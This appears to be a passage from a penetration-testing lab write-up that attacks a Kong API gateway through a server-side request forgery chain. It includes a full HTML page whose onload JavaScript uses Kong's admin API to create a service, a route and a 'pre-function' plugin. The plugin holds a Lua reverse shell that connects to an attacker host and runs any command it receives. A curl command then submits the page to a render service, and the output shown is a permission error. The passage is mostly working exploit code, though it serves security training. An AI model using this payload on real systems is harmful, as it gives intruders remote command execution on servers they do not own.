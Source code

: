 
According to the Kong documentation, we have to add a plugin to a Service. We could add the plugin to an existing Service, but let's limit the exposure of it by creating a new Service. A Service needs a Route for us to call it. Let's create a new HTML page with a JavaScript function that creates a Service, adds a Route to the Service, then adds our Lua code as a `"pre-function"` plugin to the Service.

The code is organized into three sections for clarity and easy updates. On page load, `createService()` sends a `POST` request to create a `"supersecret"` service, then calls `createRoute()` to add the `/supersecret` route. Next, `createPlugin()` adds a Lua payload as a plugin. Finally, the script sends a `GET` request to our Kali host.

```html
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :["local s=require('socket');local t=assert(s.tcp());t:connect('192.168.45.203',1337);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"]}})
    }).then(function (callback) {
      fetch("http://192.168.45.203/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```
Once this page is in our webroot, we can use curl to send it to the Render service.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/rce.html"}' http://apigateway:8000/files/import
{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$
```